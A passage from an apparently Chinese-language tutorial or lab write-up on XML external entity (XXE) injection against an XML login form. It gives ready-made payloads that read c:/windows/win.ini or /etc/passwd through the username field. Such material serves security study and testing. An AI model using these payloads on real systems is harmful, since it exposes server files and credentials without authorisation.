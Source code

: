 <img src="XXE.assets/image-20211128145136166.png" alt="image-20211128145136166" style="zoom: 80%;" />

判断传输类型是xml，通过post传输的数据。然后看一下返回的响应包

![image-20211128145315051](XXE.assets/image-20211128145315051.png)

发现，响应包返回的信息中，有username的值admin。

那么我么尝试构造payload来构造外部实体admin处的注入，利用协议读取文件

```
网站在window系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///c:/windows/win.ini"> ]>
<user><username>&xxes;</username><password>admin</password></user>
网站在linux系统上搭建：
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "file:///etc/passwd"> ]>
<user><username>&xxes;</username><password>admin</password></user>
```
